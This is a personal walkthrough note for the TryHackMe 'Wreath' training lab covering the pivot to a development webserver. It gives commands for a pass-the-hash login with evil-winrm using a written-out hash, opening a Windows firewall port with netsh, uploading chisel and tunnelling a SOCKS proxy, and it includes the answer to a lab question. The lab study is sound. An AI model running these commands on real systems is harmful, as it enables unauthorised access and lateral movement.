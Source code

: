 We found two ports open in the previous task. RDP won't be of much use to us without credentials (or at least a hash, although Pass-the-Hash attacks are often restricted through RDP anyway); however, the webserver is worth looking into. Wreath told us that he worked on his website using a local environment on his own PC, so this bleeding-edge version may contain some vulnerabilities that we could use to exploit the target. Before we can do that, however, we must figure out how to access the development webserver on Wreath's PC from our attacking machine.

We have two immediate options for this: *Chisel*, and *Plink*.

If you followed the recommended route of using sshuttle to pivot from the webserver then a _chisel forward proxy_ is recommended here as it will be relatively easy to connect to through the sshuttle connection without requiring a relay -- look back at the Chisel task if you need help with this!

When using this option you will need to open up a port in the Windows firewall to allow the forward connection to be made. The syntax for opening a port using `netsh` looks something like this:  
`netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT`

Please use the `name-USERNAME` naming convention -- for example:  
`netsh advfirewall firewall add rule name="Chisel-MuirlandOracle" dir=in action=allow protocol=tcp localport=47000`  
![Demonstration of the above firewall rule through WinRM](https://assets.tryhackme.com/additional/wreath-network/31589c0e89b3.png)

Whether you choose the recommended option or not, get a pivot up and running!


![[AccesS to PC.svg]]

---

# Your job

 #Attacking_Machine 
1. For pivoting, we can use chisel. Run evil-winrm .
```
evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.84.150 -s /home/kali/Tryhackme/Wreath/Chisel_1.7.7
```

2. Open up a port for pivoting. 
#Evil-WinRM_shell 
```
netsh advfirewall firewall add rule name="Chisel-exec2" dir=in action=allow protocol=tcp localport=18456
```
> [!Note]
>If you can't connect to the webpage, change the localport.

#Attacking_Machine 
3. Download   [chisel_1.7.7_windows_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz)  and [chisel_1.7.7_linux_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz) 

4. Decompress the .gz file. #Attacking_Machine 

5. Upload the chisel.exe file.
#Evil-WinRM_shell 
```
upload chisel.exe
```

6. Setup chisel server forward socks proxy on 
#Evil-WinRM_shell 
```
./chisel.exe server -p 18456 --socks5
```

7. Install chisel on Kali Linux. #Attacking_Machine 
	- Download `chisel_1.10.1_linux_amd64.deb` and decompress it.
	- Copy `chisel` file to `/usr/bin`.

![[Screenshot from 2025-02-21 11-51-44.png]]

8. Run chisel client. 
#Attacking_Machine 
```
chisel client 10.200.84.150:18456 9090:socks
```

![[Screenshot from 2025-02-21 11-50-16.png]]

Now the socks proxy is opened on port 9090 of our port.

9. Setup FoxyProxy: Ensure you setup a `SOCKS5` proxy with *foxyproxy*:
	 ![[Pivoting-20250126190740769.webp]]

10. Navigate to http://10.200.X.100.
	 ![[Pivoting-20250126190906256.webp]]

9. Install wappalyzer extension on your browers and see the results.
	![[Pivoting-20250126191308575.webp]]

Access the website in your web browser (using FoxyProxy if you used the recommended forward proxy, or directly if you used a port forward).

> [!Question]
>Using the Wappalyzer browser extension ([Firefox](https://addons.mozilla.org/en-GB/firefox/addon/wappalyzer/) | [Chrome](https://chrome.google.com/webstore/detail/wappalyzer/gppongmhjkpfnbhagpmjfkannfbllamg?hl=en)) or an alternative method, identify the server-side Programming language (including the version number) used on the website.
>`PHP 7.4.11`


**Next step: ** [[The Wonders of Git]]

